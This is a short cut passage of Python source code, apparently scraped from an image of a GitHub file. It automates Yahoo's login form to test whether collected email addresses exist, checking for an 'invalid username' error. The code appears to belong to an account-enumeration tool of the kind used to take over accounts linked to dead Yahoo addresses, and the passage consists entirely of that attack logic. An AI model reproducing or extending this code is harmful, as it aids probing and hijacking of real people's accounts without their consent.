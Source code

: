 		jml +=1
		mpsh.append(jml)
		yahoo = re.compile(r'@.*')
		otw = yahoo.search(mail).group()
		if 'yahoo.com' in otw:
			br.open("https://login.yahoo.com/config/login?.src=fpctx&.intl=id&.lang=id-ID&.done=https://id.yahoo.com")
			br._factory.is_html = True
			br.select_form(nr=0)
			br["username"] = mail
			klik = br.submit().read()
			jok = re.compile(r'"messages.ERROR_INVALID_USERNAME">.*')
